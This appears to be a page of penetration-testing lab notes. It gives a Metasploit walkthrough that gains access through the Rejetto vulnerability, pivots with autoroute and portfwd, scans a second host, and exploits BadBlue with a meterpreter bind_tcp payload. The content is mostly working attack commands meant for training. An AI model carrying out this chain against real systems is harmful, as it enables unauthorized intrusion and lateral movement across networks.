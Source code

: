 
### **Practical Demonstration**

```bash
# for initial access we use the Rejetto vuln
# we don't need to upgrade our meterpreter session from 32bit to 64bit.

# pivoting
# step 1 - adding route to the 2nd target subnet/
meterpreter > ipconfig # lists out all the network interfaces.
meterpreter > run autoroute -s <subnet> # add a static route to the network of victim 2 (10.2.27.207/24 subnet will be 10.2.25.0/24 for example).
#The route is only accessible via MSF
# background the session.

# step 2 - scan for an open port on the added route
meterpreter > search portscan # we use this module to search for an open port.
use 5
set RHOSTS $ip_victim2
set RPORTS 1-100 # you can scan entire 65565 ports for an open port, but we limit it to 100 to save time here.
exploit # we found port "80" open on victim 2.
# now we cant interact with victim2.
#To be able to interact with the newly routed IP, we need to port forward it to our machine.

# using the "portfwd" module to do port forwarding from victim2 to our kali.
# portfwd add -l <localPort> -p <targetPort> -r <targetIP>
meterpreter > portfwd add -l 1234 -p 80 -r $ip_victim2
# where "-p" is the victim open port we want to forward, "-l" is where we want to forward to, on our kali.

# now we can do an nmap scan, and can interact with the victim2 through port 1234.
# we can also access the service on our browser, localhost:1234
db_nmap -sS -sV -p 1234 localhost # This command will scan port 80 on the newly routed target.
# after scan, we detected victim2 is running Badblue on the port80 (we forwarded to 1234).

search Badblue
use 1
# Using MSF, you have to use bind_tcp for routed targets.
set payload windows/meterpreter/bind_tcp
set RHOSTS $victim2_ip
set LPORT 4433
exploit # we get a meterpreter session for the victim2.
sessions -n victim-2 -i 2 # rename the session for victim 2
sysinfo
```





[^1]: Windows AntiVirus Folder scan exclusion list.
